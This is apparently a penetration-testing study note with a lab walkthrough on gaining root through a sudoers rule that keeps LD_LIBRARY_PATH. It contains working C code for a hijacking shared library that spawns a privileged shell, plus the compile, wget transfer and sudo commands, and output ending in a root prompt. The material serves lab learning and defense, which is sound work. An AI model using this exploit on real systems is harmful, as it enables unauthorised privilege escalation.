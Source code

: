 Note: this exploit is extremely similar to the [[env_keep+=LD_PRELOAD exploitation]] exploit.
`LD_LIBRARY_PATH` is an environment variable, which is similar to the `PATH` variable. 
It's used specify the path load the shared objects (`.so` files) called upon by a program.
Sometimes it can be specified in the `/etc/sudoers` file, which can be listed using `sudo -l`.

#### Checking for vulnerabilitytest
###### Note: If the `sudo -l` output is available, LinPEAS will flag the `LD_LIBRARY_PATH` if vulnerable. Usually, you need to enter the `sudo -l` with a password to see. If this isn't done, LinPEAS won't flag it.
First, run `sudo -l`, and check the output. If it contains `LD_LIBRARY_PATH`, it should be vulnerable.
#### Exploitation
Nearly every binary will call for shared objects, and when using the `LD_LIBRARY_PATH` environment variable, it will look in the specified path first.
This means it becomes vulnerable to a hijacking attack, where a false copy with the same name as a legitimate library is used, but has malicious code inside.
The exploitation steps are very similar to `PATH` exploitation.
First, to get the names of the libraries called upon by a binary:
```
ldd FULL_PATH_TO_TARGET_BINARY            // Note: This includes the name of the binary itself (ex: /usr/bin/bash, not /usr/bin)
```
From here, pick any shared object to hijack.
The `libcrypt.so.1` is very common, so we will use it here.

Code (filename: `exploit.c`):
```
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>
static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setuid(0);   // If the user specified to run is different from Sudo, use the UID of that user.
	setgid(0);   // If the group specified to run is different from Sudo, use the GID of that user.
	system("/bin/bash -p");
}
```
Compiling:
```
gcc -o libcrypt.so.1 -shared -fPIC exploit.c
```

This can all be done locally, as long as the architecture and operating system of the target machine and the local machine are the same.

Finally, run the exploit:
```
sudo LD_LIBRARY_PATH=PATH_TO_LIBRARY COMMAND
```
Note: make sure to specify the path to the `libcrypt.so.1` .

### Example
First, to check for vulnerability:
```
rick@Hijack:/tmp/test$ sudo -l
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
In the third line, the `env_keep+=LD_LIBRARY_PATH` exists, so it's vulnerable.
To check the libraries called upon by the exploitable binary:
```
rick@Hijack:/tmp/test$ ldd /usr/sbin/apache2                                                                           
        linux-vdso.so.1 =>  (0x00007ffdedf6e000)  
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007fb5acc54000)                                        
        libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007fb5aca2d000)                                                                                                                                                 
        libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007fb5ac7fb000)                              
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fb5ac5de000)                              
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb5ac214000)                                           
        libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007fb5abfdc000)                                 
        libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007fb5abdb3000)                                 
        libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007fb5abbae000)                                   
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fb5ab9aa000)                                       
        /lib64/ld-linux-x86-64.so.2 (0x00007fb5ad169000)
```
It uses `libcrypt.so.1`, so that will be the name of the binary.
Then, to compile the code from [[#Exploitation]]:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #nvim exploit.c
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
	└──╼ #gcc -o libcrypt.so.1 -shared -fPIC exploit.c
exploit.c: In function ‘_init’:
exploit.c:6:3: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    6 |   setuid(0); // If the user specified to run is different from Sudo, use the UID
      |   ^~~~~~
exploit.c:8:3: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    8 |   setgid(0); // If the group specified to run is different from Sudo, use the
      |   ^~~~~~
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #ls libcrypt.so.1
libcrypt.so.1
```
Getting the binary from the local machine to the target:
```
┌─[root@edu-virtualbox]─[/home/edu/THM/hijack]
└──╼ #python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

rick@Hijack:/tmp/test$ wget http://10.8.1.167:8000/libcrypt.so.1
--2023-10-27 11:07:26--  http://10.8.1.167:8000/libcrypt.so.1
Connecting to 10.8.1.167:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18160 (18K) [application/octet-stream]
Saving to: ‘libcrypt.so.1’
libcrypt.so.1                                                  100%[=========================================================================================================================================>]  17.73K  --.-KB/s    in 0.03s   
2023-10-27 11:07:26 (687 KB/s) - ‘libcrypt.so.1’ saved [18160/18160]
```
Finally, to exploit:
```
rick@Hijack:/tmp/test$ sudo LD_LIBRARY_PATH=/tmp/test /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2                                                                                                                          
/usr/sbin/apache2: /tmp/test/libcrypt.so.1: no version information available (required by /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0)                                                                                                        
root@Hijack:/tmp/test# id           
uid=0(root) gid=0(root) groups=0(root)
```
